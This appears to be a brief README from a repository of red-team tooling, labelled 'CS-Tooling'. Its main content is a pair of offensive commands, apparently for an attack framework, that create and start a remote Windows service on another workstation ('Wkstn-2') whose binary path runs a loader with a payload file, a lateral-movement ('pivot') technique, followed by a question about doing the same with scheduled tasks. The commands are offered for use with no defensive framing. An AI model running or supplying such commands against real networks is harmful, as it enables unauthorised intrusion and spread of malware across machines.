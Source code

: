 # CS-Tooling
Random tools that i wrote/found.

Pivots?:

```
run sc.exe \\Wkstn-2 create piv1 displayname=piv1 binpath= "C:\\loader.exe.exe http.bin" start=demand

run sc.exe \\Wkstn-2 start piv1
```

pivots with scheduled tasks?